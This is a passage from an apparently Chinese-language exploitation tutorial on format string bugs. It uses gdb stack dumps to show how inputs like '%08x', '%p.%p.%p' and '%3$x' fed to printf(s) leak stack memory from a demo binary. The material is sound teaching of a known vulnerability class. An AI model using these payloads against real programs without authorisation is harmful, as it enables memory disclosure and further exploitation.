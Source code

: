 ```assembly
0xffffcd14│+0x18: ".%08x.%08x"
0xffffcd18│+0x1c: "x.%08x"
> c # continue # 输出以下内容后退出 [Inferior 1 (process 57077) exited normally]
ffffcd10.000000c2.f7e8b6bb  # 这里泄露的是栈上的内存
```

- 如果换成`%p.%p.%p`，则输入输出为：

```python
%p.%p.%p # 输入
00000001.22222222.ffffffff.%p.%p.%p # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的输出
0xfff328c0.0xc2.0xf75c46bb # printf(s); 的输出
```

- 并不是每次得到的结果都一样 ，因为栈上的数据会因为每次分配的内存页不同而有所不同，这是因为栈是不对内存页做初始化的
- 获取**栈中被视为第 n+1 个参数的值**：(格式化参数里面的 n 指的是该格式化字符串对应的第 n 个输出参数，相对于输出函数来说，是第 n+1 个参数)

```c
printf("%3$x"); // 获取对于printf函数来说，视为第4个参数的值  //  %2$s 将栈上第3个参数作为字符串输出
```
- 输入为`%3$x`时的栈，输出：
```assembly
$ gdb leakmemory
>  b printf
>  r
%3$x # 输入
────────────────────────────────────────[ stack ]──── # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的栈
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s" # format string
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x1c: 0x000000c2
>  r
00000001.22222222.ffffffff.%3$x # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的输出
─────────────────────────────────────────────────────[ stack ]──── # printf(s); 的栈
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%3$x" # 将会输出对应format string来说第3个参数，相对于printf来说是第4个参数
0xffffcd04│+0x08: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10 # 将会被输出的内容 !!! # printf's parameter 4  !!!!!!
0xffffcd10│+0x14: "%3$x"     ← $eax
0xffffcd14│+0x18: 0xffffce00  →  0x00000001
0xffffcd18│+0x1c: 0x000000e0
>  c  # 输出后退出 [Inferior 1 (process 57442) exited normally]
f7e8b6bb # 输出的内容为 0xffffcd0c│+0x10: 0xf7e8b6bb 即esp+0x10 为printf的第4个参数 # 确实获得 printf 第 4 个参数所对应的值 f7e8b6bb
```

